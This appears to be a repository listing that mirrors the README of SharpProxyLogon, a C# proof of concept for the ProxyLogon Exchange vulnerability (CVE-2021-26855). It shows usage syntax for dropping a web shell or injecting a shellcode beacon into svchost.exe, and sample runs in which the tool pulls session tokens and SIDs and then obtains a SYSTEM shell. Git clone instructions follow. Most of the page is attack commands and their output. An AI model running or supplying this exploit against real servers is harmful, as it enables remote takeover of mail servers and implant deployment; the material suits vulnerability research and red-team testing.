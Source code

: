 # SharpProxyLogon

C# POC for CVE-2021-26855 aka ProxyLogon, supports the classically semi-interactive web shell as well as shellcode injection 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Flangvik](https://github.com/Flangvik) |
| Url      | [https://github.com/Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)                                               |
| Stars    | 222                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SharpProxyLogon

C# POC for the ProxyLogon chained RCE

```
 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
```

Shellcode injection uses built-in [TikiTorch stub by @Rastamouse](https://github.com/rasta-mouse/TikiTorch), this will spawn, suspend and inject staged_beacon.bin into svchost.exe

```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net C:\Temp\staged_beacon.bin "C:\Windows\System32\svchost.exe"

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary lR_xIbkU4EeRa8k0G_ekSjy7CrzM9dgIeCdYK8sMbRQMUoAQMnEfYvHrvDLT1j2jJMFBrpxnJ1s.
[+] Got aspNETSessionID 0e8da60d-ff97-4748-80f1-5834caeba361
[+] Got OABId 1d2e2d98-c636-43c7-a3a9-8041b545d575
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, triggering injection
```

Example with classic webshell drop
```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary V7mF62VZA0ay793xWTSE07chwKLM9dgIQolVMbEnWJJkvonIUO8VWm2BZdIklFP35W-mtZnUZ4Y.
[+] Got aspNETSessionID 9028e0b3-e56c-4b33-b0e9-b66ab9ab9067
[+] Got OABId cabf9619-178d-4d3e-84a3-748ec598a477
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, going semi-interactive
CMD #>whoami
nt authority\system

CMD #>hostname
DC01

CMD #>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2598:cc98:d369:b6ed%13
   IPv4 Address. . . . . . . . . . . : 192.168.58.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.58.2

CMD #>
```


## Get the content

```
git clone https://github.com/Flangvik/SharpProxyLogon
cd SharpProxyLogon
```

{% embed url="https://github.com/Flangvik/SharpProxyLogon" %}

<figure><img src="https://avatars.githubusercontent.com/u/23613997?v=4" alt=""><figcaption><p>Flangvik</p></figcaption></figure>
